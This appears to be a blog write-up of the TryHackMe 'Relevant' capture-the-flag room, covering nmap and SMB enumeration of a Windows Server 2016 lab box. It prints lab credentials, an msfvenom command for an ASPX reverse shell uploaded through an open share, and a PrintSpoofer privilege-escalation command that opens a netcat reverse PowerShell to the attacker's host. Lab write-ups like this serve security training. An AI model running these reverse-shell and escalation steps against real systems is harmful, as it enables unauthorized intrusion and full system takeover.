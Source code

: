```yaml
---
layout: post
title: "Relevant"
tags: TryHackMe
description: "Get access to the system via SMB share and TRY HARDER to pwn this box."
---
```


[Relevant](https://tryhackme.com/room/relevant) is the eighth machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration

`Nmap` scan result:
```
nmap -sC -sV -o nmap.txt <target_ip>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 08:30 EDT
Nmap scan report for <target_ip>
Host is up (0.068s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-20T12:30:47+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-10-20T12:31:27+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m00s, deviation: 3h07m51s, median: 0s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-10-20T05:30:49-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-10-20T12:30:48
|_  start_date: 2020-10-20T11:32:19

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.43 seconds

```

This time we are working with `Windows Server 2016` and a bunch of ports are open.  
Usually, I'm starting with port `80`, but didn't find any use for that this time.  
The machine itself is not so stable, so I had to revert it after doing the `nmap` scan to make it work again.  

Enumerating `smb`:
```
smbclient -L <target_ip>
Enter WORKGROUP\kali's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```
The `nt4wrksv` looks interesting, let's access it.  

```
smbclient \\\\<target_ip>\\nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 4951106 blocks available
```
The `passwords.txt` contains two pair of credentials encoded in `base64`.  
The fasted way to decode them is

```
echo <hash>  | base64 --decode
```
And again, I didn't find any direct way of using that.

That's it, a dead end. I don't know what else to try.
Everything looks like rabbit holes.

That might be frustrating. The feeling of you is THAT close to getting the shell is real.  
If you will ask any OSCP student/holder what to do in this case they for sure will respond with `TRY HARDER` (usually all caps, yeah).  
I discussion on what that means to `try harder` can long for hours, so let me just drop this article here:  
[Try Harder: From Mantra to Mindset](https://www.offensive-security.com/offsec/what-it-means-to-try-harder/)

Take a deep breath, look around the pieces of evidence that you have.

- two pairs of credentials
- up to date services
- access to the `smb` where you can't do much

A common scenario is that you creating a shell and upload it to the `smb` share. Normally, in such scenarios, the `smb` share is connected to the web-server and it's a `wwwroot` directory.

A quick check on that is try to open in the browser the `passwords.txt` as we know the exact location of it:
```
http://<target_ip>/nt4wrksv/passwords.txt
```
Nothing. Again.
What if we missed something during the enumeration part?
Let's do another `nmap` scan but with the `-p` flag this time:
```
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Aha! Now we also have the port `49663` which is also running the `http`.
The content of if is the same as for port `80`, but it doesn't mean that they are the same.  
Let's try the check that we did for port `80` but this time for `49663`:

```
http://<target_ip>:49663/nt4wrksv/passwords.txt
```

There you have it, the content of `passwords.txt` in a browser:
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

---

## Exploitation

Now we can try out a scenario where we creating a reverse shell, uploading it to the `smb`, and triggering it with the browser/`curl` request.

```
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f aspx -o shell.aspx LHOST=<your_ip> LPORT=<your_port>
```

Upload it to the `smb` share with `put` command, open the `nc` listener.

You can trigger the shell by opening the following URL in the browser:
```
http://<target_ip>:49663/nt4wrksv/shell.aspx
```
Catch the shell in `nc`.

---

## PrivEsc

Let's check the privileges that our current user has:

```
c:\inetpub\wwwroot\nt4wrksv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Alright, the `SeImpersonatePrivilege` is enabled!  
Normally, I would try to use [JuicyPotato](https://github.com/ohpe/juicy-potato), but this exploit is not very stable either.  
I also could try the `incognito.exe` that I used for the exploitation of [Alfred](https://hackish.space/Alfred), but I started this series to expand my knowledge and try out new tools and techniques.  

I've heard a lot of quite a recent tool - [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), it's a great opportunity to try it out!  

As we have access to the `smb` share, you can download the `x64` version of the latest `PrintSpoofer` and upload it there.  
You can find uploaded file here: `c:\inetpub\wwwroot\nt4wrksv`.  

The tool is very easy to use:

```
c:\inetpub\wwwroot\nt4wrksv> PrintSpoofer.exe -i -c powershell
```

You can also create a reverse shell with it:

```
c:\inetpub\wwwroot\nt4wrksv>  PrintSpoofer.exe -c "c:\inetpub\wwwroot\nt4wrksv\nc.exe <your_ip> <your_port> -e powershell"
```

## Takeaway
- TRY HARDER
- TRY HARDER
- TRY HARDER
